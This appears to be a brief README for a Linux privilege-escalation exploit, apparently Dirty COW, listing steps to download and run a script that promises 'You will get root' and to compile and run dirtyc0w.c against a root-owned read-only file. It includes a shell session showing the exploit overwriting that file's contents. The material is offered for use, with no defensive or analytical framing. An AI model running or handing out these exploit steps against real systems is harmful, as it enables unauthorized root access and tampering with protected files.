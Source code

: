 ### Steps: run_exec.sh 
 1. Download .sh file 
 1. make exec and run 

 You will get root
 
### Steps: 40611.c 

 1. Download .c 
 2. compile the c code 
 3. Run on read only/root protected file 

    ```sh 
    $ ls -lah foo
    -r-----r-- 1 root root 19 Oct 20 15:23 foo
    $ cat foo
    this is not a test
    $ gcc -pthread dirtyc0w.c -o dirtyc0w
    $ ./dirtyc0w foo m00000000000000000
    mmap 56123000
    madvise 0
    procselfmem 1800000000
    $ cat foo
    m00000000000000000
    ```
File foo will be modified - dirtycOw
